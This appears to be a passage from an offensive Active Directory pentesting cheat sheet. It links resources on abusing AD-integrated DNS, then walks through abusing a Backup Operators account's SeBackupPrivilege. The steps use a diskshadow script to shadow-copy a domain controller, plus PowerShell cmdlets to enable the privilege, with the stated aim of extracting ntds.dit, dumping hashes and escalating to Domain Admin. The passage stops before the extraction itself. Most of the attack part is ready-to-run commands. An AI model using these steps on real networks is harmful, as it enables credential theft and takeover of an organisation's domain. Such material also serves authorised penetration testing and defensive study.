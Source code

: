 ### Abusing Active Directory-Integraded DNS

* [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
* [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
* [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

  **Abusing Backup Operators Group**

_What is this?: If we manage to compromise a user account that is a member of the Backup Operators group, we can then abuse its SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA._

1\) Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:

Create a .txt file that will contain the shadow copy process script

```text
Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup  
}
```

Execute diskshadow with our script as parameter

```text
diskshadow /s script.txt
```

2\) Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:

Importing both dlls from the repo using powershell

```text
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

Checking if the SeBackupPrivilege is enabled

```text
Get-SeBackupPrivilege
```

If it isn't we enable it

```text
Set-SeBackupPrivilege
```
